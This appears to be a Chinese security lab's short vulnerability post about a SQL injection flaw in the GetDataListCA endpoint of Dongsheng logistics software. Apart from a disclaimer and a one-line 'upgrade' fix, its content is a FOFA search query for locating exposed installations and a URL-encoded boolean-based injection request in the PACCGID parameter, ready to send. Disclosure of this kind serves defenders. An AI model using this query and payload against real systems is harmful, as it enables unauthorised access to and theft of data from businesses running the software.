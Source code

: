 #  东胜物流软件GetDataListCA接口存在SQL注入漏洞  
zz  星络安全实验室   2025-07-13 12:19  
  
<table><tbody><tr><td data-colwidth="576"><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></td></tr></tbody></table>  
  
东胜物流软件是青岛东胜伟业软件有限公司一款集订单管理、仓库管理、运输管理等多种功能于一体的物流管理软件。该系统在GetDataListCA接口存在SQL注入漏洞，攻击者可以通过利用该漏洞获取数据库等敏感信息。  
  
漏洞复现：  
  
fofa：  
```
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsUmaichQ0ETnWOWZgMXiarriaexSG1dEibEr2K9BibTo59CHdBbKbxeibMK1A/640?wx_fmt=png&from=appmsg "")  
  
poc：  
```
GET /MvcShipping/MsCwGenlegAccitems/GetDataListCA?PACCGID=%31%27%29%20%41%4e%44%20%28%53%45%4c%45%43%54%20%43%41%53%45%20%57%48%45%4e%20%28%36%37%38%32%3d%36%37%38%32%29%20%54%48%45%4e%20%31%20%45%4c%53%45%20%30%20%45%4e%44%29%3d%31%20%2d%2d HTTP/1.1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFs4EmiasrHYhWbmpXIzibjibURhjfpjN3NnQicF8cdsc4iagzstnZ88UYicDhQ/640?wx_fmt=png&from=appmsg "")  
  
修复详情：  
  
关注厂商动态，升级至安全版本  
  
  

